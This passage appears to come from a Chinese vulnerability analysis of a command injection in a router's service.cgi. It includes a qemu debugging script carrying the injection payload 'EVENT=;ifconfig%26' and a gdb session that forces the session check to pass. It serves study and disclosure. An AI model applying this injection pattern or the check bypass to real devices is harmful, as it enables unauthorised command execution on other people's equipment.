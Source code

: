 结合调用部分，可以函数使用`vsnprintf`函数将`EVENT`参数与格式化字符串`event %s > /dev/null`构成命令后直接调用`system`去执行。由于对参数没有过滤且可控，所以形成了命令注入漏洞。

除了`EVENT`参数外，也可以使用`ACTION`以及`SERVICE`的组合进行命令注入。`ACTION`如果为`START`、`RESTART`以及`STOP`则会将`SERVICE`的参数构成命令`service %s start > /dev/null`、`service %s restart > /dev/null`以及`service %s stop > /dev/null`，也可以通过`SERVICE`参数形成命令注入漏洞。

### 动态调试

接下来进行动态调试进行验证，用命令`sudo ./cgi_run_service.sh`启动，脚本内容如下：

```bash
#!/bin/bash
# sudo ./cgi_run.sh

INPUT=`python -c "print 'EVENT=;ifconfig%26'"`

LEN=$(echo $INPUT | wc -c)
PORT="1234"


if [ "$LEN" == "0" ] || [ "$INPUT" == "-h" ] || [ "$UID" != "0" ]
then
    echo -e "\nusage: sudo $0\n"
    exit 1
fi

cp $(which qemu-mipsel-static) ./qemu

echo "$INPUT"  | chroot .  ./qemu  -0 "/service.cgi" -E CONTENT_LENGTH=$LEN -E CONTENT_TYPE="application/x-www-form-urlencoded"  -E REQUEST_METHOD="POST"  -E REQUEST_URI="/service.cgi" -E REMOTE_ADDR="127.0.0.1" -g $PORT ./htdocs/cgibin "/service.cgi" "/service.cgi" #2>/dev/null
echo "run ok"
rm -f ./qemu
```

由于只是调试单个脚本，所以无法拿到有效的cookie，在这里的做法是断点断在`0x40CF34`，即判断cookie是否有效的处，并将其手动修改成1，便可以继续往下执行，执行到`lxmldbc_system`处。

```c
.text:0040CF20 loc_40CF20:                              # CODE XREF: servicecgi_main+E4↑j
.text:0040CF20                 la      $t9, sess_ispoweruser
.text:0040CF24                 nop
.text:0040CF28                 jalr    $t9 ; sess_ispoweruser
.text:0040CF2C                 nop
.text:0040CF30                 lw      $gp, 0x130+var_120($sp)
.text:0040CF34                 bnez    $v0, loc_40CF58
```

整个动态调试的过程大致如下，可以看到`lxmldbc_system`参数为`event %s > /dev/null`以及`;ifconfig&\n`，最终构成命令`;ifconfig&\n > /dev/null`，命令注入的时候可以不用`&`来结束，用`;`也可以，为的是不要把执行结果重定向到`/dev/null`中，而是返回回来。

```c
0x0040cf34 in servicecgi_main ()
(gdb) x/2i $pc
=> 0x40cf34 <servicecgi_main+316>:      bnez    v0,0x40cf58 <servicecgi_main+352>
   0x40cf38 <servicecgi_main+320>:      lui     a2,0x42
(gdb) i r $v0
v0: 0x0
(gdb) set $v0=1
(gdb) c
Continuing.
Breakpoint 1:
0x0040d038 in servicecgi_main ()
(gdb) x/2i $pc
=> 0x40d038 <servicecgi_main+576>:      jalr    t9
   0x40d03c <servicecgi_main+580>:      nop
```